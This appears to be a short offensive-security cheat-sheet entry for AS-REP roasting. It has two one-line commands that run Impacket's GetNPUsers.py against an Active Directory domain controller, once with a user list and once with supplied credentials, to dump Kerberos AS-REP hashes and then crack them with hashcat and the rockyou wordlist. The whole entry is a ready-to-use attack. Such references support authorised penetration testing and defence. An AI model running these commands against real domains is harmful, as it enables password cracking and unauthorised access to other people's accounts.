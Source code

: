 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast with usersfile
```
GetNPUsers.py -usersfile <usersfile|users.txt> -outputfile hashes.asreproast <domain>/ -dc-ip <ip>; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## ASREPRoast with authentication
```
GetNPUsers.py -request -outputfile hashes.asreproast <domain>/'<user>':'<passwd>' -dc-ip <ip>; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```
